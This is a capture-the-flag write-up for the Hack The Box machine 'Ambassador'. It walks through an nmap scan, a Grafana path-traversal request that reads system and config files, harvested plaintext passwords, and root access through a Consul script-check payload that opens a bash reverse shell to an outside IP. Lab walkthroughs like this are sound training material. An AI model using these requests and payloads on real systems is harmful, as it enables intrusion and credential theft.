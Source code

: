 # Enumeration
IP :10.10.11.183
## Nmap
```bash
nmap -sC -sV -oA nmap/ambassador 10.10.11.183
**Nmap scan report for 10.10.11.183
Host is up (0.0085s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ambassador Development Server
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 29 Jan 2023 14:14:12 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 69
|   Capabilities flags: 65535
|   Some Capabilities: ConnectWithDatabase, Support41Auth, Speaks41ProtocolOld, FoundRows, IgnoreSigpipes, SupportsTransactions, SupportsCompression, SwitchToSSLAfterHandshake, InteractiveClient, LongColumnFlag, ODBCClient, LongPassword, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: {\x18m%\x1D!9H	;\x05\x18tJe\x17C-!@
|_  Auth Plugin Name: caching_sha2_password
**
```
Hugo version 0.94.2, Ubuntu

## Port 80
Static webpage.

## Port 3000
Grafana v8.2.0 which is older then sept 2021 (from github issue.)

Check exploit db to find a LFI
```python
url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```
This is what the script boils down to.

Have to use burp cause `../` thingy

As mysql port is open going to try to sub in mysql for the choice.
```http
GET /public/plugins/mysql/../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```
check `/etc/passwd` for users on the box
```
grep '/bin/bash' passwd
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
ssh key?

nope

Checking the grafana documentation for where the init file is stored.
```
/etc/grafana/grafana.ini
```
Look at file
```
cat grafana.ini | grep password
admin_password = messageInABottle685427
```
Admin:messageInABottle685427 logs into grafana

Nothing on grafana, try the db file. `/var/lib/grafana/grafana.db`

Get the creds out of the file by using sqlite3
```bash
mysql -u grafana -p -h 10.10.11.183
```


```
grafana:dontStandSoCloseToMe63221!
```
Try login to mysql, which works.

Get developers passwd (b64)
```
developer:anEnglishManInNewYork027468
```
user flag
```
d5d5e296b0066478c9f4667a26c04331
```
no sudo -l

# Priv esc
Found reference to consul which has a rce on metasploit.

Looking at the git logs for the wackywidget there is a consul token.
```
bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Get the api data. (command and port found from metasploit script)
```
curl --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" localhost:8500/v1/agent/self; echo
```
Check if either `EnableLocalScriptChecks` or `EnableRemoteScriptChecks` is set to true.
```bash
cat dump.json | jq . | grep ScriptCheck
```
They both are!

Now to generate the payload as json data:
```json
{
"ID":"Notavirus",
"Name":"Notavirus",
"Address":"127.0.0.1",
"Port":80,
"check":{
	"args":[ "/bin/bash" , "-c", "bash -i >& /dev/tcp/10.10.14.47/9001 0>&1"],
	"interval":"10s",
	"Timeout":"86400s"
	}
}
```
Then trigger the exploit.
```bash
curl --request PUT --data @exp.json --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" localhost:8500/v1/agent/service/register; echo
```
root.txt
```
c36a52339bcd65f5f5d3bc24d8c7dd4d
```
:)

